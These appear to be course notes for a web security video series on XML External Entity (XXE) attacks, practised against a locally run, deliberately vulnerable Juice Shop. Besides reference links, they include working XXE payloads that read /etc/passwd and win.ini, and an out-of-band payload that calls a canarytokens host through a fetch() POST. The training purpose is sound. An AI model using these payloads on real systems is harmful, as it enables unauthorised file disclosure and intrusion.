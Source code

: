 # Video 6.2

* [A05:2021 – Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration)

# Video 6.3

* [[OWASP] Testing for XML Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection)
* [What Are XML External Entity (XXE) Attacks](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)
* [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)
* [CWE-756: Missing Custom Error Page](https://cwe.mitre.org/data/definitions/756.html)

```xml
<?xml version="1.0"  encoding="UTF-8" ?>
<!DOCTYPE Wares [
  <!ENTITY ltd "Limited Edition ™">
]>
<Wares>
  <Item>Most Beautiful Apple (&ltd;)</Item>
  <Item>Highest Possible Mountain (&ltd;)</Item>
  <Item>Deepest Darkest Cave (&ltd;)</Item>
</Wares>
```

```xml
<Wares>
  <Item>Most Beautiful Apple (Limited Edition ™)</Item>
  <Item>Highest Possible Mountain (Limited Edition ™)</Item>
  <Item>Deepest Darkest Cave (Limited Edition ™)</Item>
</Wares>
```

```sh
# Load unsafe.yml that enables XXE challenge
# https://github.com/juice-shop/juice-shop/tree/master/config
sudo docker run --rm -it -e "NODE_ENV=unsafe" -d -p 127.0.0.1:3000:3000 bkimminich/juice-shop
```

# Video 6.4

* [Canarytokens](https://canarytokens.org/)
* [Webhook.site](https://webhook.site/)

## Different payloads

```js
var payload = `<?xml version="1.0"  encoding="UTF-8" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "http://canarytokens.com/URL">
]>
<foo>
  &xxe;
</foo>`;

fetch("http://localhost:3003/changelog", {
  "headers": {
    "content-type": "text/xml",
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-site"
  },
  "referrer": "http://localhost:3001/",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": payload,
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```

```xml
<!-- Target: Linux -->
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>
  &xxe;
</foo>
```

```xml
<!-- Target: Windows -->
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">
]>
<foo>
  &xxe;
</foo>
```

```xml
<!-- Direct call to webhook.site is an another way -->
<?xml version="1.0" ?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM
  "http://canarytokens.com/URL">
]>
<foo>
  &xxe;
</foo>
```

# Video 6.5

* [GitHub: JuiceShop/fileUpload.ts](https://github.com/juice-shop/juice-shop/blob/master/routes/fileUpload.ts)
* [CVE 2021-29447 report by Safe Security](https://www.safe.security/assets/img/research-paper/pdf/xml-external-entity-xxe-vulnerability-research-paper.pdf)
* [X41 BeanStack: Java Fingerprinting using Stack Traces](https://beanstack.io/)
